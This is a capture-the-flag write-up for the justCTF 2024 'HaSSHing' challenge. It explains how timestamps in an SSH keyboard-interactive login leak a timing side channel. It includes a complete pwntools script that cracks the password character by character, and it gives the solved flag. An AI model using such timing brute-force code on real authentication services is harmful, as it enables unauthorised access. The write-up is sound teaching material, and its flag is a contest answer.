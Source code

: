 Author: 0x6fe1be2

Version 19-06-24

# [justCTF 2024 teaser](https://ctftime.org/event/2342) (15.06-16.06)

## HaSSHing
Category: MISC, PWN

Points: 174 (64 Solves)

Teammates: Popax21

> Interact with the keyboard or not, I don’t care; as only the flag will let you in - no chance of hash collisions here!
> The flag consists only of the following characters: "CFT_cdhjlnstuw{}" and digits. Each character may appear multiple times.
> Challenged provided by Trail of Bits and authored by elopez.
> ```bash
> ssh hasshing.nc.jctf.pro -l ctf -p 1337
> ```


### TL;DR

The ssh connection gives very precise times for the output log, that can be used as a side channel to crack the password byte for byte.

### Overview
No Files :,\

Using verbose mode we can get some interesting information

```
ssh hasshing.nc.jctf.pro -l ctf -p 1337 -vvv
```

notably

```
debug1: compat_banner: no match: paramiko_2.9.3                                                                                                                                                                                        
...
debug1: Authentications that can continue: keyboard-interactive,password
debug3: start over, passed a different list keyboard-interactive,password
debug3: preferred publickey,keyboard-interactive,password
debug3: authmethod_lookup keyboard-interactive
debug3: remaining preferred: password
debug3: authmethod_is_enabled keyboard-interactive
debug1: Next authentication method: keyboard-interactive
debug2: userauth_kbdint
```

`paramiko` might sound familiar to some, basically it's a big python ssh module that is used in project like `pwntools`. Also note that 2.9.3 is very outdated which might be interesting.

The used authentication method is `keyboard-interactive`.

Let's look at the source code for the interactive authentication code:

[server.py](https://github.com/paramiko/paramiko/blob/51eb55debf2ebfe56f38378005439a029a48225f/paramiko/server.py#L182)
```python
    def check_auth_interactive(self, username, submethods):
        """
        Begin an interactive authentication challenge, if supported.  You
        should override this method in server mode if you want to support the
        ``"keyboard-interactive"`` auth type, which requires you to send a
        series of questions for the client to answer.

        Return ``AUTH_FAILED`` if this auth method isn't supported.  Otherwise,
        you should return an `.InteractiveQuery` object containing the prompts
        and instructions for the user.  The response will be sent via a call
        to `check_auth_interactive_response`.

        The default implementation always returns ``AUTH_FAILED``.

        :param str username: the username of the authenticating client
        :param str submethods:
            a comma-separated list of methods preferred by the client (usually
            empty)
        :return:
            ``AUTH_FAILED`` if this auth method isn't supported; otherwise an
            object containing queries for the user
        :rtype: int or `.InteractiveQuery`
        """
        return AUTH_FAILED
```


Interesting, here isn't an implementation for this, meaning that the challenge creators must have created their own. Let's play around with it:

### Vulnerability

```
[keyboard-interactive authentication mode]
Server time is 2024-06-19 08:20:25.102303
(ctf@hasshing.nc.jctf.pro) password: a
[2024-06-19 08:20:25.845872] Checking password...
[2024-06-19 08:20:25.896760] That wasn't it, sorry. Try again.
(ctf@hasshing.nc.jctf.pro) password: j
[2024-06-19 08:20:28.040791] Checking password...
[2024-06-19 08:20:28.141839] That wasn't it, sorry. Try again.
(ctf@hasshing.nc.jctf.pro) password: 
```

We can see that the charactor `a` takes about 0.05s but `j` takes 0.1, which we know is the prefix of the flag, so let's use this information to write an exploit.


### Exploit


Thanks to Popax21 for writing the exploit and getting the flag during the CTF. I slightly modified it for the writeup.

Flag: `justCTF{s1d3ch4nn3ls_4tw_79828}`

<details>

```python
from pwn import *
import datetime
import re as regex

linfo = lambda x: log.info(x)
lwarn = lambda x: log.warn(x)
lerror = lambda x: log.error(x)
lprog = lambda x: log.progress(x)

byt = lambda x: x if isinstance(x, bytes) else x.encode() if isinstance(x, str) else repr(x).encode()
phex = lambda x, y='': print(y + hex(x))
lhex = lambda x, y='': linfo(y + hex(x))
pad = lambda x, s=8, v=b'\0', o='r': byt(x).ljust(s, byt(v)) if o == 'r' else byt(x).rjust(s, byt(v))
padhex = lambda x, s=None: pad(hex(x)[2:],((x.bit_length()//8)+1)*2 if s is None else s, b'0', 'l')
upad = lambda x: u64(pad(x))
tob = lambda x: bytes.fromhex(padhex(x).decode())

gelf = lambda elf=None: elf if elf else exe
srh = lambda x, elf=None: gelf(elf).search(byt(x)).__next__()
sasm = lambda x, elf=None: gelf(elf).search(asm(x), executable=True).__next__()
lsrh = lambda x: srh(x, libc)
lasm = lambda x: sasm(x, libc)

cyc = lambda x: cyclic(x)
cfd = lambda x: cyclic_find(x)
cto = lambda x: cyc(cfd(x))

t = None
gt = lambda at=None: at if at else t
sl = lambda x, t=None: gt(t).sendline(byt(x))
se = lambda x, t=None: gt(t).send(byt(x))
sla = lambda x, y, t=None: gt(t).sendlineafter(byt(x), byt(y))
sa = lambda x, y, t=None: gt(t).sendafter(byt(x), byt(y))
ra = lambda t=None: gt(t).recvall()
rl = lambda t=None: gt(t).recvline()
rls = lambda t=None: rl(t)[:-1]
re = lambda x, t=None: gt(t).recv(x)
ru = lambda x, t=None: gt(t).recvuntil(byt(x))
it = lambda t=None: gt(t).interactive()
cl = lambda t=None: gt(t).close()


THRESHOLD = 25000
CHARS = "_cdhjlnstuw" + string.digits + "{}CFT"

def extract_time(l):
    m = regex.match(rb"\[(.*)\]", l)
    assert m
    return datetime.datetime.fromisoformat(m.group(1).decode())

# justCTF{s1d3ch4nn3ls_4tw_79828}
pw = ""
prog = lprog("Cracking password")
info = lprog("Cracking info")
retries = 0

while True:
  context.log_level = 'error'
  t = process("ssh hasshing.nc.jctf.pro -l ctf -p 1337".split(), raw=True, stdin=process.PTY)
  context.log_level = 'info'
  try:
    while True:
      mc, mt = None, None
      for c in CHARS:

        prog.status(f"trying '%s%c'", pw, c)

        sla("(ctf@hasshing.nc.jctf.pro) password:", pw + c)

        rl()
        l = rl()

        if b"Checking password..." not in l and c == '}':
          prog.success(pw + c)
          cl()
          exit(0)

        start_time = extract_time(l)

        err_time = extract_time(rl())

        dt = err_time - start_time

        if mt is None or mt < dt:
          ot = mt
          mc = c
          mt = dt

        ddt = mt - min(dt, ot or dt)
        info.status(f"best(%c): %d, crnt: %d, delta: %d", 
                    mc, mt.microseconds, dt.microseconds, ddt.microseconds)

        if ddt.microseconds > THRESHOLD:
          break 

      if ddt.microseconds < THRESHOLD:
        if retries > 1:
          info.failure('failed twice sth is wrong')
          exit(1)
        info.status("retrying, very low delta '%s': %d", pw, ddt.microseconds)
        pw = pw[:-1]
        retries += 1
        continue

      pw += mc
      retries = 0

  except Exception:
    info.status('EOF restarting connection')
    context.log_level = 'error'
    cl()
```

</details>
